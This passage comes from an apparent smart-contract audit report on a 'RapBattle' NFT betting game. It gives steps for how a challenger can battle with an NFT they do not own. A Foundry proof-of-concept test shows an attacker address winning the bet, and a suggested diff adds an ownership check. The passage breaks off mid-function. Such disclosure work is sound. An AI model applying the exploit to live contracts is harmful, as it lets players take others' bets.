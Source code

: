1. User A calls `OneShot::mintRapper()` and gets NFT #0.
2. User A calls `RapBattle::goOnStageOrBattle()` to place a bet
3. User B calls `OneShot::mintRapper()` and gets NFT #1.
4. User C calls `RapBattle::goOnStageOrBattle()` passing in `_tokenId` of NFT #1.
5. User C wins the bet and gets rewarded the defender tokens.

Below you can see a POC of the above scenario:

```javascript
    function testUserNotApprovingNFTBeforeBattle() public twoSkilledRappers {
        vm.startPrank(user);
        oneShot.approve(address(rapBattle), 0);
        rapBattle.goOnStageOrBattle(0, 0);
        vm.stopPrank();

        address attacker = makeAddr("attacker");
        vm.prank(attacker);

        vm.warp(2 hours);
        vm.recordLogs();
        rapBattle.goOnStageOrBattle(1, 0);
        vm.stopPrank();

        Vm.Log[] memory entries = vm.getRecordedLogs();
        address winner = address(uint160(uint256(entries[0].topics[2])));
        assert(winner == attacker);
    }
```

### Tools Used

VS Code, Foundry

### Recommendations

Consider adding a check to ensure the challenger owns their NFT. Note that this would require their NFT to not be staked in the Streets contract:

```diff
    function _battle(uint256 _tokenId, uint256 _credBet) internal {
        address _defender = defender;
+       require(
+           oneShotNft.ownerOf(_tokenId) == msg.sender,
+           "RapBattle: Not the owner"
+       );
        require(defenderBet == _credBet, "RapBattle: Bet amounts do not match");
        uint256 defenderRapperSkill = getRapperSkill(defenderTokenId);
        uint256 challengerRapperSkill = getRapperSkill(_tokenId);
        uint256 totalBattleSkill = defenderRapperSkill + challengerRapperSkill;
        uint256 totalPrize = defenderBet + _credBet;

        uint256 random =
            uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender))) % totalBattleSkill;

        // Reset the defender
        defender = address(0);
        emit Battle(msg.sender, _tokenId, random < defenderRapperSkill ? _defender : msg.sender);

        // If random <= defenderRapperSkill -> defenderRapperSkill wins, otherwise they lose
        if (random <= defenderRapperSkill) {
            // We give them the money the defender deposited, and the challenger's bet
            credToken.transfer(_defender, defenderBet);
            credToken.transferFrom(msg.sender, _defender, _credBet);
        } else {
```